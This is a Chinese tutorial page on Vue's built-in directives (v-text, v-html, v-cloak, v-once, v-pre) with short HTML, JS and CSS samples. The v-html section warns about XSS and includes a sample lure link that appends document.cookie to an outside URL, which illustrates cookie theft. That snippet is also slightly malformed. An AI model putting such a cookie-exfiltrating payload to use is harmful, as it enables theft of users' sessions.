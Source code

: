 # 其它内置指令

## v-text

`v-text` 指令会覆盖元素默认值。

```html
<p v-text="username">这段内容会被覆盖</p>
```

```js
data() { return { username: "Bruce" } }
```

## v-html

:::warning
安全问题

v-html 存在安全问题，容易导致 XSS 攻击
:::

```html
<p v-html="desc">原本内容被覆盖</p>
```

```js
data() {
  return {
    desc: '<h1 style="color: red">红色标题</h1>'，
    str: '<a href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>'
  }
}
```

## v-cloak

- 本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删除 v-cloak 属性
- 使用 CSS 配合 v-cloak 可解决网速慢时页面展示 的问题

```css
[v-cloak] {
  display: none;
}
```

```html
<h2 v-cloak>{{ username }}</h2>
```

## v-once

- v-once 所在节点初次渲染后就成为静态内容
- 即数据变化不会引起 v-once 所在节点内容的更新，可用于优化性能

```html
<h2 v-once>初次的内容：{{ content }}</h2>
<h2>最新的内容：{{ content }}</h2>
```

## v-pre

- 跳过所在节点的编译过程
- 没有使用插值语法等特殊语法的节点，可用其跳过编译过程，加快编译

```html
<h2 v-pre>Vue 内置指令</h2>
<p>用户名：{{ username }}</p>
```
